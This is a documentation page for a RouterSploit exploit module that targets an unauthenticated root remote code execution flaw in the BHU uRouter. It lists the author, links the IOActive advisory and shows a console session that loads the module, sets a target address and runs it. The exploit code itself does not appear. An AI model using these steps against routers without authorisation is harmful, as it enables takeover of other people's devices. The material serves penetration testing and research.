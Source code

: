 # BHU uRouter RCE

## Description
Module exploits BHU uRouter unauthenticated remote code execution vulnerability, which allows executing commands on the router with root privileges.

## Authors
* Tao "depierre" Sauvage # vulnerability discovery & routersploit module

## References
* [http://www.ioactive.com/pdfs/BHU-WiFi_uRouter-Security_Advisory_Final081716.pdf](http://www.ioactive.com/pdfs/BHU-WiFi_uRouter-Security_Advisory_Final081716.pdf)

## Vulnerable devices
* BHU uRouter

## Usage
```
rsf > use exploits/bhu/bhu_urouter_rce
rsf (BHU uRouter RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.62.1
   port       80                   Target port


rsf (BHU uRouter RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (BHU uRouter RCE) > run
[*] Running module...
```
